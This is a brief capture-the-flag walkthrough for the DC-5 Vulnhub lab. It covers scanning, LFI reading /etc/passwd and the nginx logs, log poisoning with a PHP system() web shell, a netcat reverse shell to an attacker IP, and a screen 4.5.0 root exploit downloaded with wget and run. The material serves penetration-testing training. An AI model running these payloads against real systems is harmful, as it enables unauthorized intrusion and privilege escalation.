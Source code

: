 ## DC-5 Vulnhub Walkthrough

### Penetration Methodology

#### Scanning

- Discovering Targets IP

  `netdiscover`

- Network scanning (Nmap)

  `nmap -A 192.168.1.108`

#### Enumeration

- Surfing HTTP service port

- Abusing CMS using LFI 

  `192.168.1.108/thankyou.php?file=/etc/passwd`

- Checking Ngnix Access Logs

  `192.168.1.108/thankyou.php?file=/var/log/nginx/access.log`

#### Exploiting

- Exploiting LFI vulnerability using Burpsuite

  `file=<?php system($_GET['cmd'])?>`

- Using Netcat to get the reverse shell

  `file=/var/log/nginx/error.log&cmd=nc -e /bin/bash 192.168.1.110 1234`

- Spawning a tty shell

  `nc -lvp 1234`

#### Privilege Escalation

- Checking SUID binaries

  ```bash
  searchsploit screen 4.5.0
  searchsploit -m 41154
  cat 41154.sh
  gcc -fPIC -shared -ldl -o libhax.so libhax.c
  gcc -o rootshell rootshell.c
  python -m SimpleHTTPServer
  ```

  

- Capture the flag

  ```bash
  wget http://192.168.1.110:8000/41154.sh
  wget http://192.168.1.110:8000/libhax.so
  wget http://192.168.1.110:8000/rootshell
  chmod 777 41154.sh
  ./41154.sh
  id
  cd /root
  ls
  cat thisistheflag.txt
  ```

  

[原文](https://www.hackingarticles.in/dc-5-vulnhub-walkthrough/)

---